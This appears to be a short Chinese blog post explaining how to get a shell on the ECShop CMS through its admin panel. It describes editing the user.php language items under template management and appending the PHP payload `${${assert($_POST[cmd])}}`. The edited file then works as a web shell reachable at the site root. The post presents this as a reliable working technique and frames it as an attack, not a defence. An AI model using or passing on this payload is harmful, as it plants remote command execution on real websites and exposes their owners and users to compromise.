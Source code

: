```yaml
---
title: "ecshop 后台 getshell"
date: 2018-01-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


ecshop 后台 getshell

<!--more-->

模板管理 - 语言项编辑

下拉栏选择 user.php 搜索 用户信息

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/07/1515297913.jpg)

后面加上代码

`${${assert($_POST[cmd])}}`

确认修改

连接 根目录下 user.php

屡试不爽